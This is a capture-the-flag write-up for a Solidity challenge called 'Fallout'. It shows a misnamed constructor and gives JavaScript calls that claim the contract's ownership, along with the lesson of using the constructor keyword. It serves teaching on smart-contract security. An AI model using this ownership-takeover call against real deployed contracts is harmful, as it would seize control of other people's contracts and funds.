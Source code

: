 # Level 2: Fallout

## Challenge Overview

The `Fallout` challenge demonstrates the importance of constructor naming in Solidity.  
The goal is to claim ownership of the contract by exploiting an incorrectly named constructor.

## Goal

- **Call a misnamed constructor to become the contract owner.**

## Solution

In older Solidity versions, constructors were functions with the same name as the contract.  
The `Fallout` contract contains a misnamed constructor:

```solidity
function Fallout() public payable {
    owner = msg.sender;
}
```

## To solve this:

1. **Call the `Fallout` function**

```javascript
// Call the mis-named “constructor” as a payable tx
await contract.Fallout({
  value: toWei("0") // send 0 or you can also send a tiny amount like "0.0001"
});
```

2. **Verify ownership**

```javascript
// Confirm you have taken ownership
console.log("new owner =", await contract.owner(), "should equal player:", player);
```

---

## Lessons Learned

- **Always use the `constructor` keyword** for defining constructors in modern Solidity.
- Be cautious of naming conventions, as they can lead to critical vulnerabilities.
